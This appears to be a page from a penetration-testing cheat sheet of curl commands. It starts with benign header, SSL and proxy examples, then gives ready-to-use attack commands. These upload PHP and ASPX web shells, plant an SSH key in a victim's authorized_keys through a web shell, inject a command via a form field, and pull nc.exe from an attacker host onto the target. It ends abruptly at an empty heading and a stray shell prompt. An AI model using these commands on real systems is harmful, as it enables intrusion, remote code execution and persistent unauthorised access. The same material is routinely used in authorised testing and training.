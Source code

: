 ### Reference for -X

> https://daniel.haxx.se/blog/2015/09/11/unnecessary-use-of-curl-x/

### Headers

```console
$ curl -vvv <RHOST>
```

or

```console
$ curl -s -q -v -H 'Origin: http://<RHOST>' <DOMAIN>/api/auth
```

### Use SSL

```console
$ curl -k <RHOST>
```

### Use Proxy

```console
$ curl --proxy http://127.0.0.1:8080
```

### Web Shell Upload

```console
$ curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://<RHOST>/PATH/TO/DIRECTORY/<FILE>.php
$ curl -X PUT -T /usr/share/webshells/aspx/cmdasp.aspx "http://<RHOST>/sh.aspx"
$ curl -X MOVE -H "Destination: http://<RHOST>/sh.aspx" http://<RHOST>/sh.txt
```

### SSH Key Upload

```console
$ curl -G 'http://<RHOST>/<WEBSHELL>.php' --data-urlencode 'cmd=echo ssh-rsa AAAA--- snip --- 5syQ > /home/<USERNAME>/.ssh/authorized_keys'
```

### Command Injection

```console
$ curl -X POST http://<RHOST>/select --data 'db=whatever|id'
```

### File upload from local Web Server to Remote System

```console
$ curl http://<LHOST>/nc.exe -o c:\users\<USERNAME>\nc.exe
```

### File Download via Command Injection


[localhost]: PS C:\Users\<USERNAME>\Documents> whoami